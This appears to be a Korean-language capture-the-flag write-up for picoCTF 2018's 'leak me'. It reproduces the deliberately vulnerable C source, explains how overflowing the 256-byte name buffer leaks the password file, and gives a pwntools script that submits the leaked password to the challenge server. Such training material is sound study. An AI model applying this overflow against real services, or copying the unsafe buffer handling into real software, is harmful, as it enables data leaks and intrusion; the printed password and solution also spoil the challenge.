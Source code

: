 # picoCTF 2018

<h5> leak me </h5>
<hr>

<h5> Solution </h5>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

<p> 바이너리를 실행하면 name 변수에 입력을 받게 됩니다. </p>
<p> 변수의 크기는 256Byte 로 지정되어 있고 지정 크기 이상으로 값을 주게 되면 </p>
<p> 메모리 오버플로우에 의해서 의도하지 않게 password.txt 의 내용을 출력해주게 됩니다. </p>

<img class="border-shadow" src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fk.kakaocdn.net%2Fdn%2FcUkVxM%2FbtqxS5oMNi8%2FfgBIokYlkgpxEHYLiakTBk%2Fimg.png"><br>

<p> 260Byte 의 메모리 오버플로우를 발생 시킨 결과로, 출력문의 끝에 패스워드가 포함된 것을 확인할 수 있습니다. </p>

<p> 해당 패스워드를 가지고, name & password 에 값을 입력시켜주면 플래그를 획득할 수 있습니다. </p>

```py
#!/usr/bin/python

from pwn import *

p = remote('2018shell.picoctf.com',31045)

name = "jhyeon"

p.sendline(name)

password = "a_reAllY_s3cuRe_p4s$word_d98e8d"

p.sendline(password)

p.interactive()
``` 